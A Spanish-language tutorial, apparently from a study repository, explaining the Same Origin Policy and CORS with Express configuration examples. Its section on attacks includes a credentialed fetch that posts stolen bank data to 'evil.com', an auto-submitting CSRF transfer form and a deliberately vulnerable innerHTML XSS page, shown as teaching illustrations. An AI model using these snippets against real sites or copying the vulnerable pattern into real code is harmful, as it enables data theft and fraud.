




# CORS

## 1. ¿Qué es SOP? 🤔
- Same Origin Policy (SOP) es una medida de seguridad implementada en los navegadores web que restringe cómo un documento o script de un origen puede interactuar con recursos de otro origen.
- Esto significa que, por defecto, **un script en una página web solo puede hacer peticiones a su propio dominio**.
- Un "origen" se define por:
  - El esquema (http, https)
  - El dominio
  - El puerto.
---
<br>


## 2. ¿Por qué se necesita SOP? 🛡️
- Previene ataques como:
  - Exfiltración de datos
  - Cross-Site Request Forgery (CSRF)
  - Cross-Site Scripting (XSS)
  - DNS Rebinding

### 2.1 Exfiltración de datos 📤
- Un atacante puede crear un sitio web malicioso que intente acceder a datos sensibles de otro sitio web donde el usuario ha iniciado sesión.

```html
<script>
    (async () => {
        const res = await fetch('https://bank.com/api/balance', { credentials: 'include' });
        const data = await res.text();

        await fetch('https://evil.com/rcv', { method: 'POST', body: data });
    })();
</script>
```

### 2.2 Cross-Site Request Forgery (CSRF) 🔄
- Un atacante puede engañar a un usuario para que realice una acción no deseada en un sitio web donde está autenticado.


- Esto se logra a través de un formulario oculto o una petición AJAX que se envía automáticamente.
```html
<form id="f" action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="receptor" value="ES66... attacker" />
    <input type="hidden" name="balance" value="1000" />
</form>
<script> document.getElementById('f').submit(); </script>
```

### 2.3 Cross-Site Scripting (XSS) 💉
- Un atacante puede inyectar scripts maliciosos en una página web que son ejecutados por otros usuarios.
- Esto puede permitir al atacante robar información sensible, como cookies de sesión.

```html
<!-- 
    Abrir en el navegador el siguiente enlace: 
    http://localhost/page.html?q= 
-->
<body>
    <h1>Buscador</h1>
    <div id="resultado"></div>

    <script>
      const params = new URLSearchParams(location.search);
      const q = params.get('q') ?? '';
      document.getElementById('resultado').innerHTML = `Resultado para: ${q}`;
    </script>
</body>
```

### 2.4 DNS Rebinding 🌐
- Un atacante puede manipular la resolución de DNS para hacer que un dominio malicioso apunte a una dirección IP interna.
- Esto puede permitir al atacante acceder a servicios internos que no están expuestos públicamente.


---
<br>


## 3. ¿Qué es CORS? 🌍
- CORS es un mecanismo que permite a los servidores especificar quién puede acceder a sus recursos y cómo.
- Utiliza cabeceras HTTP para informar al navegador si debe permitir o bloquear la solicitud de un origen diferente.
- Permite a los desarrolladores web superar las restricciones de SOP de manera segura.
---
<br>


## 4. ¿Cómo funciona? ⚙️
- **Petición Inicial:** El navegador envía una petición con la cabecera `Origin` que indica desde qué dominio se realiza.
- **Respuesta del Servidor:** Basado en su política de CORS, el servidor responde:
  - *Permitido:* Incluye cabeceras como `Access-Control-Allow-Origin` si acepta el dominio.
  - *Denegado:* Omite las cabeceras necesarias y el navegador bloquea el acceso al recurso.
- **Peticiones “simples” (sin preflight):** la request se envía, pero si falta CORS correcto el navegador bloquea que el JS lea la respuesta.
- **Con preflight (OPTIONS):** si la respuesta al preflight no autoriza (Allow-Origin/Methods/Headers), el navegador **no envía** la petición real.
---
<br>


## 5. Detalles 🛂
- Solo funciona en navegadores.
- Solo funciona con recursos de origen cruzado (diferente dominio).
- Se resuelve enviando las cabeceras concretas:
  - `Access-Control-Allow-Origin`: especifica qué dominios pueden acceder al recurso.
  - `Access-Control-Allow-Headers`: especifica qué cabeceras pueden ser enviadas en la petición (Content-Type, Authorization, etc).
  - `Access-Control-Allow-Methods`: indica los métodos HTTP permitidos (GET, POST, PUT, DELETE, etc).
  - `Access-Control-Allow-Credentials`: indica si se permiten las credenciales en la petición (cookies, autenticación HTTP, etc).
- Preflight Request: Petición de verificación previa que se envía antes de la petición real. 
  - Se utiliza para comprobar si el servidor acepta la petición.
  - Se envía con el método OPTIONS.
  - Solo para solicitudes con métodos no seguros (PUT, PATCH, DELETE).
  - Incluye las cabeceras `Access-Control-Request-Method` y `Access-Control-Request-Headers`.
  - Si el preflight no está autorizado por el servidor, el navegador **no** enviará la petición real.
---
<br>


## 6. Uso sin módulo CORS (manual)🛠️📚
```javascript
import express from 'express';

const app = express();
const ALLOWED_ORIGINS = [
    'http://example.com:8080',                                      // Si se especifica un puerto solo aceptará ese puerto.
    'http://example2.com:8081'
    ];

app.get('/api/data', (req, res) => {
    const origin = req.headers.origin;
    if (ALLOWED_ORIGINS.includes(origin)){                          // Importante!! Recordar que si es el mismo dominio no se envía la cabecera Origin.
        res.header('Access-Control-Allow-Origin', origin);          // Permite solo el dominio que ha hecho la petición si está en la lista.
        res.header('Access-Control-Allow-Headers', 'Content-Type'); // Permite solo la cabecera Content-Type
        res.header('Access-Control-Allow-Methods', 'GET, POST');    // Permite solo los métodos GET y POST
        res.header('Access-Control-Allow-Credentials', 'true');     // Permite credenciales

        res.send('Data');
    }
});


// Preflight Request (OPTIONS) es necesario para métodos no seguros (PUT, PATCH, DELETE)
app.options('/api/data/:id', (req, res) => {
    const origin = req.headers.origin;
    if (ALLOWED_ORIGINS.includes(origin)){
        res.header('Access-Control-Allow-Origin', origin);
        res.header('Access-Control-Allow-Headers', 'Content-Type');
        res.header('Access-Control-Allow-Methods', 'DELETE');
        res.header('Access-Control-Allow-Credentials', 'true');
        
        res.send('Preflight Request');
    }
});

app.delete('/api/data/:id', (req, res) => {
    const origin = req.headers.origin;
    if (ALLOWED_ORIGINS.includes(origin)){
        res.header('Access-Control-Allow-Origin', origin);
        res.header('Access-Control-Allow-Headers', 'Content-Type');
        res.header('Access-Control-Allow-Methods', 'DELETE');
        res.header('Access-Control-Allow-Credentials', 'true');
        
        res.send('Data deleted');
    }
});
```
---
<br>

## 7. Uso con módulo CORS 📦
- Este módulo automatiza la configuración de CORS en una aplicación Node.js.
- También automatiza la gestión de Preflight Request (OPTIONS).
```bash
# Instalar CORS
npm install cors
```
```javascript
// Usar CORS
import express from 'express';
import cors from 'cors';

const app = express();

// Configurar CORS
app.use(cors({
    origin: 'http://example.com',     // Dominio permitido
    methods: ['GET', 'POST'],         // Métodos permitidos
    allowedHeaders: ['Content-Type'], // Cabeceras permitidas
    credentials: true,                // Permitir credenciales
    maxAge: 3600                      // Cachear Preflight Request por 3600 segundos
}));
```
---
<br><br><br>

## *[volver al índice](../../../../README.md)*